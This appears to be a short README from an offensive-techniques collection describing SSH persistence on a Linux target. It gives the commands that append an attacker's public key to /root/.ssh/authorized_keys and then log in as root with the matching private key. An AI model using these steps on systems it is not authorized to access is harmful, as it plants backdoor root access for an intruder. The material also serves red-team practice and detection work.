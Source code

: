 ### Prerequisites
root access

ssh service is running

    # service sshd status  
    # systemctl status sshd

In the ssh config
- PermitRootLogin < without-password | yes >
- PublicKeyAuthentication yes
- AuthorizedKeysFile .ssh/authorized_keys

### Attacker

    # ssh-keygen
    
### Target

    # mkdir -p /root/.ssh
    # echo '<ATTACKER_PUBLIC_KEY>' >> /root/.ssh/authorized_keys
    # chmod 600 /root/.ssh/authorized_keys

### Exploitation 

    ssh root@<TARGET_IP>[:SSH_PORT] -i <ATTACKER_PRIVATE_KEY_PATH>


### Info
- ssh config paths : 
    - /etc/ssh/sshd_config
